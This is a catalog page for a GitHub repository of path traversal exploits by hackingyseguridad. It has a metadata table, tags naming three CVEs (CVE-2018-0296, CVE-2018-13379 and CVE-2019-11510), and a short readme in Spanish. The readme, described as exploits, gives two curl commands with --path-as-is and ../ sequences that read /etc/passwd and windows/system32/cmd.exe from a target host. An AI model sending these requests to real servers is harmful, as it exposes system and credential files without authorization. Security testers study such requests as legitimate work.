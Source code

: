 # directoriotraversal

Directorio traversal - Path traversal - Directory traversal ( hackingyseguridad.com )

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/hackingyseguridad](https://github.com/hackingyseguridad) |
| Url      | [https://github.com/hackingyseguridad/directoriotraversal](https://github.com/hackingyseguridad/directoriotraversal)                                               |
| Stars    | 10                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2018-0296* cve-2018-13379* cve-2019-11510* descubrir* directorio* directory* explore* fuzzer* path* traversal

</details>

## Readme

# directoriotrasversal
#
# Exploits para explotar la vulnerabilidade de directorio trasversal o path traversal.
#

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html



## Get the content

```
git clone https://github.com/hackingyseguridad/directoriotraversal
cd directoriotraversal
```

{% embed url="https://github.com/hackingyseguridad/directoriotraversal" %}

<figure><img src="https://avatars.githubusercontent.com/u/20928501?v=4" alt=""><figcaption><p>hackingyseguridad</p></figcaption></figure>
